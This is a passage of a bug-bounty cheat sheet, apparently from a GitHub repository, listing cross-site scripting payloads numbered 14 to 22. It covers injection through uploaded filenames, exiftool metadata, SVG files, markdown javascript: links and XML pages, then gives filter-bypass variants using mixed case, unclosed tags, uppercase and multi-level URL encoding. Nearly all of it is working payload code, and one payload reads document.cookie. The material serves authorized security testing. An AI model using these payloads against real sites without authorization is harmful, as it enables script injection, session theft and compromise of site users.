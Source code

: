 14. XSS in filename (File Upload) Use when uploaded filename is reflected somewhere in target page

```
"><svg onload=alert(1)>.jpeg
```

15. XSS in metadata (File Upload) Use when uploaded metada is reflected somewhere in target page (using exiftool)

```
$ exiftool -Artist='"><script>alert(1)</script>' dapos.jpeg
```

16. XSS with SVG file (File Upload)

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

17. XSS via markdown

```
[Click Me](javascript:alert('1'))
```

18. XSS in XML page

```
<a:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```

> Add a "-->" to payload if input lands in a comment section

> Add a "]]>" if input lands in a CDATA section

## **XSS Cheat Sheet (Bypass)**

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md#xss-cheat-sheet-bypass)

19. Mixed Case

```html
<Script>alert(document.cookie)</Script> 
```

20. Unclosed Tags

```html
<svg onload="alert(1)"
```

21. Uppercase Payloads

```html
<SVG ONLOAD=ALERT(1)>
```

22. Encoded XSS

```html
(Encoded)
%3Csvg%20onload%3Dalert(1)%3E 

(Double Encoded)
%253Csvg%2520onload%253Dalert%281%29%253E 

(Triple Encoded)
%25253Csvg%252520onload%25253Dalert%25281%2529%25253E 
```
